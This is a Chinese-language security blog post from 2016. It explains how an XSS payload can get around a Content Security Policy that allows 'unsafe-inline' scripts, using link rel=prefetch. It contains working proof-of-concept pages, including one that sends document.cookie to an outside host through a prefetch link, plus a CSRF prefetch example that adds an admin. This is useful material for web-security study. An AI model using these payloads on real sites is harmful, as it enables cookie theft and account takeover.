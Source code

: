 ```yaml
---
title: CSP进阶-link Bypass unsafe line
date: 2016-10-28 19:19:57
tags:
- Blogs
- csp
categories:
- Blogs
---
```


随着时代的发展,XSS也成不可磨灭的漏洞之一，但是攻和防的进化总是相互交织的，所以CSP也应运而成，以白名单为基础而建立的防御策略本以为会是xss的克星，但事实并不是这样的，曾经也写过一篇文章

我的CSP科普文章
[http://lorexxar.cn/2016/08/08/ccsp/](http://lorexxar.cn/2016/08/08/ccsp/)

里面也提到了一些关于bypass的手段，但是没想到有些东西有点儿太过简单了，所以在看到知道创宇的文章时候有了新的想法
[http://paper.seebug.org/91/](http://paper.seebug.org/91/)


<!--more-->

在原来的文章中，我主要提到了两种攻击手段，第一种是

1、script-src self unsafe-inline

在很多大型的站中我们能遇到这样的CSP，由于大站中很多时候会不可避免的写了很多内联脚本，导致CSP难以维护，这时候我们就有了很多的利用方式，可惜的是，CSP策略最重要的原则就是同源策略，如果你试图向外域发送请求，那么就会被CSP所拦截，比如

```
<?php

    header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';");

    ?>

    <html>
    <head></head>
    <body>
        csp header test
        <script>
		document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";";
        
		var xml = new XMLHttpRequest(); 
		xml.open('POST', 'http://xss.ssss', true); 
		xml.setRequestHeader("Content-type","application/x-www-form-urlencoded"); 
		xml.send('username='+user+'&password='+pass);
        </script>
    </body>
    </html>
```

如果script中为我们构造，就一定会被拦截，虽然你可以任意的执行alert(1).

这时候我们的解决办法往往是通过站内信的方式，把数据发送到同源下某个可以接受信息的地方，这样同样可以获得信息。

这时候就需要提到我曾经使用过的另一种攻击手段了，由于firefox的安全性仍然走在chrome的前面，所以就出现了一个特别的只在chrome下的利用方式

```
<link rel="prefetch" src="http://xxxx/submit.php?addadmin=123456">
```

当时我在文章中提到了这种攻击方式，可以构成csrf，由于link标签毕竟仍是一个html标签，所以没办法，仅通过link标签并没有办法盗取cookie。

但事实上如果我们存在一个script的构造点，但是却没办法通过CSP发请求到外网，我们有了新的解决办法，就是创宇的文章中提到的

```
  <?php

    header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline';");

    ?>

    <html>
    <head></head>
    <body>
        csp header test
        <script>
        document.cookie = "csp=" + escape("sad@jisajid&*JDSJddsajhdsajkh21sa213123o1") + ";";

        var n0t = document.createElement("link");
        n0t.setAttribute("rel", "prefetch");
        n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
        document.head.appendChild(n0t);
        </script>
    </body>
    </html>
```

把前面提到的两个洞结合起来，那么我们成功了的接收到了，bypass成功

下面是实例图

![](/img/ccsp/cspthen/1.png)

我们看到直接的请求被拦截了，但是link发送成功了

![](/img/ccsp/cspthen/2.png)

成功收到了